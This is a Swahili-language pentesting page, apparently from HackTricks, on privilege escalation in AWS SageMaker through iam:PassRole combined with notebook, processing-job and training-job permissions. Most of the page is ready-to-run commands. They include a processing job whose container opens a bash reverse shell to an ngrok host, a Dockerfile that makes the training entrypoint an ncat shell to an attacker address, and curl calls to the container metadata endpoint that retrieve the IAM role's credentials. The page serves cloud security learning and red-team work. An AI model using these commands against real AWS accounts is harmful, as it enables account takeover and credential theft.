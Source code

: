 # AWS - Sagemaker Privesc

## AWS - Sagemaker Privesc

{{#include ../../../banners/hacktricks-training.md}}

### `iam:PassRole` , `sagemaker:CreateNotebookInstance`, `sagemaker:CreatePresignedNotebookInstanceUrl`

Anza kuunda noteboook na IAM Role ili kupata iliyoambatanishwa nayo:
```bash
aws sagemaker create-notebook-instance --notebook-instance-name example \
--instance-type ml.t2.medium \
--role-arn arn:aws:iam::<account-id>:role/service-role/<role-name>
```
Majibu yanapaswa kuwa na uwanja wa `NotebookInstanceArn`, ambao utaonyesha ARN ya mfano mpya wa notebook ulioanzishwa. Tunaweza kisha kutumia API ya `create-presigned-notebook-instance-url` kuunda URL ambayo tunaweza kutumia kufikia mfano wa notebook mara itakapokuwa tayari:
```bash
aws sagemaker create-presigned-notebook-instance-url \
--notebook-instance-name <name>
```
Naviga kwenye URL na kivinjari na ubofye \`Open JupyterLab\` katika kona ya juu kulia, kisha shuka chini hadi kwenye tab ya “Launcher” na chini ya sehemu ya “Other”, bofya kitufe cha “Terminal”.

Sasa inawezekana kufikia akreditif za metadata za IAM Role.

**Madhara Yanayoweza Kutokea:** Privesc kwa huduma ya sagemaker iliyotajwa.

### `sagemaker:CreatePresignedNotebookInstanceUrl`

Ikiwa kuna Jupyter **notebooks tayari zinaendesha** kwenye hiyo na unaweza kuorodhesha hizo kwa `sagemaker:ListNotebookInstances` (au kuzipata kwa njia nyingine yoyote). Unaweza **kuunda URL kwa ajili yao, kuzipata, na kuiba akreditif kama ilivyoonyeshwa katika mbinu ya awali**.
```bash
aws sagemaker create-presigned-notebook-instance-url --notebook-instance-name <name>
```
**Madhara Yanayoweza Kutokea:** Privesc kwa jukumu la huduma ya sagemaker lililounganishwa.

### `sagemaker:CreateProcessingJob,iam:PassRole`

Mshambuliaji mwenye ruhusa hizo anaweza kufanya **sagemaker itekeleze processingjob** yenye jukumu la sagemaker lililounganishwa. Mshambuliaji anaweza kuashiria ufafanuzi wa kontena ambalo litakimbia katika **AWS managed ECS account instance**, na **kuiba akauti za IAM zilizounganishwa**.
```bash
# I uploaded a python docker image to the ECR
aws sagemaker create-processing-job \
--processing-job-name privescjob \
--processing-resources '{"ClusterConfig": {"InstanceCount": 1,"InstanceType": "ml.t3.medium","VolumeSizeInGB": 50}}' \
--app-specification "{\"ImageUri\":\"<id>.dkr.ecr.eu-west-1.amazonaws.com/python\",\"ContainerEntrypoint\":[\"sh\", \"-c\"],\"ContainerArguments\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14920 0>&1\\\"\"]}" \
--role-arn <sagemaker-arn-role>

# In my tests it took 10min to receive the shell
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI" #To get the creds
```
**Madhara Yanayoweza Kutokea:** Privesc kwa jukumu la huduma ya sagemaker lililotajwa.

### `sagemaker:CreateTrainingJob`, `iam:PassRole`

Mshambuliaji mwenye ruhusa hizo ataweza kuunda kazi ya mafunzo, **ikiendesha kontena chochote** juu yake na **jukumu lililounganishwa** nalo. Hivyo, mshambuliaji ataweza kuiba akidi za jukumu hilo.

> [!WARNING]
> Hali hii ni ngumu zaidi kutekeleza kuliko ile ya awali kwa sababu unahitaji kuunda picha ya Docker ambayo itatuma rev shell au creds moja kwa moja kwa mshambuliaji (huwezi kuashiria amri ya kuanzia katika usanidi wa kazi ya mafunzo).
>
> ```bash
> # Unda picha ya docker
> mkdir /tmp/rev
> ## Kumbuka kwamba kazi ya mafunzo itaita executable inayoitwa "train"
> ## Ndio maana ninaweka rev shell katika /bin/train
> ## Weka thamani za <YOUR-IP-OR-DOMAIN> na <YOUR-PORT>
> cat > /tmp/rev/Dockerfile <<EOF
> FROM ubuntu
> RUN apt update && apt install -y ncat curl
> RUN printf '#!/bin/bash\nncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh' > /bin/train
> RUN chmod +x /bin/train
> CMD ncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh
> EOF
>
> cd /tmp/rev
> sudo docker build . -t reverseshell
>
> # Ipelekwe kwa ECR
> sudo docker login -u AWS -p $(aws ecr get-login-password --region <region>) <id>.dkr.ecr.<region>.amazonaws.com/<repo>
> sudo docker tag reverseshell:latest <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
> sudo docker push <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
> ```
```bash
# Create trainning job with the docker image created
aws sagemaker create-training-job \
--training-job-name privescjob \
--resource-config '{"InstanceCount": 1,"InstanceType": "ml.m4.4xlarge","VolumeSizeInGB": 50}' \
--algorithm-specification '{"TrainingImage":"<account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell", "TrainingInputMode": "Pipe"}' \
--role-arn <role-arn> \
--output-data-config '{"S3OutputPath": "s3://<bucket>"}' \
--stopping-condition '{"MaxRuntimeInSeconds": 600}'

#To get the creds
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"
## Creds env var value example:/v2/credentials/proxy-f00b92a68b7de043f800bd0cca4d3f84517a19c52b3dd1a54a37c1eca040af38-customer
```
**Madhara Yanayoweza Kutokea:** Privesc kwa jukumu la huduma ya sagemaker lililotajwa.

### `sagemaker:CreateHyperParameterTuningJob`, `iam:PassRole`

Mshambuliaji mwenye ruhusa hizo ataweza (kwa uwezekano) kuunda **ajira ya mafunzo ya hyperparameter**, **akikimbia kontena yoyote** juu yake na **jukumu lililounganishwa** nalo.\
_Sijafanya unyakuzi kwa sababu ya ukosefu wa muda, lakini inaonekana kama unyakuzi wa awali, jisikie huru kutuma PR yenye maelezo ya unyakuzi._

## Marejeleo

- [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/)

{{#include ../../../banners/hacktricks-training.md}}
